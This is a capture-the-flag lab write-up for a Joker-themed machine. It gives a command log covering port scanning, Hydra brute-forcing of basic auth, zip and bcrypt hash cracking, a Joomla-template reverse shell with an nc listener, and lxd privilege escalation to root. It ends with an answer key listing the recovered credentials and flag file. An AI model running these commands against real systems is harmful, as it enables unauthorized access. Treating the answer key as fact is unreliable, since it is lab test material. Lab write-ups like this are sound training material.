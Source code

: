 rustscan -a 10.10.99.62 --range 0-65535 --ulimit 5000 -- -sV

feroxbuster -u http://10.10.99.62 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent
#scanning port 80 webpage

hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.99.62 http-get

feroxbuster -u http://10.10.99.62:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent
#scanning port 8080 webpage

zip2john backup.zip > backuphash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt backuphash.txt

grep -inr "duper"
#gives us the line containing the username and hash
#from joomladb.sql

hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
#crack the hash

nc -nvlp 4444
#setup listener and get reverse shell from Joomla templates

#in reverse shell
id
#we are www-data
#we are in lxd group

python3 -c 'import pty;pty.spawn("/bin/bash")'
#upgrade shell

#referring to lxd privesc article on Google
#in attacker machine
git clone  https://github.com/saghul/lxd-alpine-builder.git

cd lxd-alpine-builder

./build-alpine
#this builds alpine image, we can transfer this to victim now

python3 -m http.server

#in victim session
cd /tmp

wget http://10.10.99.62:8000/alpine-v3.16-x86_64-20221024_0528.tar.gz
#download the tar archive

#add image to lxd
lxc image import ./alpine-v3.16-x86_64-20221024_0528.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh
#we get root shell

id
#root

cd /mnt/root/root

ls -la
#we get flag

Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1
  * 80 - http - Apache httpd 2.4.29 (Ubuntu)
  * 8080 - http - Apache httpd 2.4.29 (Ubuntu)

The webpage on port 80 does not need any authentication, so we can start by enumerating its directories.

On the other hand, port 8080 has basic authentication mechanism, so we will brute-force it later.

We can go through the webpage on port 80; it contains a lot of quote-images related to Joker.

Using Inspect, we can view the source code, but it does not contain any useful info.

Going back to the enumerated directories, we have:

  * /css
  * /img
  * /secret.txt
  * /phpinfo.php

/secret.txt contains a conversation between Batman and Joker
/phpinfo.php contains a lot of info about the backend, we can save it for later.

Now, we can attempt to brute-force the basic auth mechanism on port 8080, with the help of Hydra.

By brute-force, we get the creds joker:hannah; logging into port 8080 leads us to a blog page.

Going through the webpage shows that it is using Joomla CMS; we can use feroxbuster to scan for directories.

Meanwhile, using common-sense, checking /administrator directory leads us to the admin login section.

We are also told to look for a backup file; we find a file - /backup.zip

Now, as the .zip file is encrypted, we can use zip2john and try to crack this.

We get the password as 'hannah', again, using john.

Now we can go through the extracted files and check for any info.

Instead of going through each and every file, we can work smartly - we are told to look for a 'super duper user'; we can use grep to search the word 'duper'.

This gives us a line from db/joomladb.sql file; the super duper user is admin.

We can crack the hash that we found using hashcat; we get the cleartext "abcd1234"

Thus we can log into the administrator section using creds admin:abcd1234, we just need to find out a way to get reverse shell.

Simply Googling for 'Joomla reverse shell' gives us multiple ways to get access; we can use any technique to get reverse shell.

Once we setup and get reverse shell, (by viewing the Template preview), we can go start enumeration of the machine.

Using 'id', we can see that we are part of the lxd group; we can exploit this feature.

Googling for 'lxd privesc' gives us an article which covers this aspect - <https://www.hackingarticles.in/lxd-privilege-escalation/>

Replicating the steps given in the blog, we get root.

```
1. What version of Apache is it? - 2.4.29

2. What port on this machine need not to be authenticated by user and password? - 80

3. There is a file on this port that seems to be secret, what is it? - secret.txt

4. There is another file which reveals information of the backend, what is it? - phpinfo.php

5. What user do you think it is? - joker

6. What port on this machine need to be authenticated by Basic Authentication Mechanism? - 8080

7. What is that password? - hannah

8. What directory looks like as admin directory? - /administrator

9. There is a backup file, what is this file? - backup.zip

10. What is the password? - hannah

11. What is the super duper user? - admin

12. What is the password? - abcd1234

13. What is the owner of this session? - www-data

14. What is this group? - lxd

15. What is the name of the file in the /root directory? - final.txt
```
